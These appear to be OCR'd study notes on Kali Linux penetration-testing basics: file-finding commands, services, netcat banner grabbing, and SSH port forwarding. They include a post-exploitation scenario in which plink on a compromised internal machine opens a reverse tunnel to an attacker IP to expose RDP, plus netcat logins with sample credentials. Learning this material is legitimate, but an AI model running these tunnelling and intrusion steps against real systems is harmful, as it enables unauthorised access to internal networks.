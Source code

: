 linux utilities to **find or locate** files

1. Locate command: 

Updatedb -- to update the db of the OS

Ex: locate sbd.exe

1. Which command :

Ex: which sbd : prg can be found under /usr/bin/

1. find command:

Ex: find / -name sbd\*

all files lower case sbd and file format.

find  -name sbd\* -exec file{} \;

**Services**:

passwd : change the old and weak pass to new strong password

1. SSH Services : Secure shell

EX : netstat -antp \| grep sshd

Service ssh stop

1. HTTP Server:

TCP based  and download the malicious file to victim

Ex: services apache2 start

echo "kali linux rocks" &gt; /var/www/index.html

1. services management : wrapper around /etc/init.d

4.Service persistent

update -rc.d ssh enable

update-rc.d apache2 enable

RC conf also can be used

**bash scripting**

1. cat index.html l grep "href="
2. cat index.html \| grep "href=" \| cut -d

**Essential**

netcat : network utility able to read and write to TCP and UDP ports

it can be used as TCP client or server

nc -nv 192.168.20.25 25

open

banner

HELP

SMTP list all commands

nc -nv 192.168.30.35 110

bob

password: bob

**Port Forwarding**

rinetd.conf

scenario1:

Encrypted tunnel within the ssh tunnel:

**SSH Local Port forwarding \(-L\):**

localport --&gt; remoteport \(Over ssh tunnel\)

**SSH Remote Port forwarding :**

Scenario2 \(tunnel a remote port to a local server\):

Initiated Client Attack \(on org\) and got shell of a internal machine \(Non routable\) -- &gt; uploaded a SSH windows client \(plink\) on vi

on victim machine we have RDP enabled \(\)

now to access internal RDP port by creating reverse SSL connection to attacker machine from the victim machine

Now tunnel the local rdp traffic to the remote port using plink

```
plink -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389
```

ssh connection is made and 3390 is in listen mode

netstat -antp \| grep LISTEN

Now in attacker machine try to tunnel the local traffic to rdp

```
rdesktop 127.0.0.1:3390
```

**SSH Dynamic Port Forwarding:**



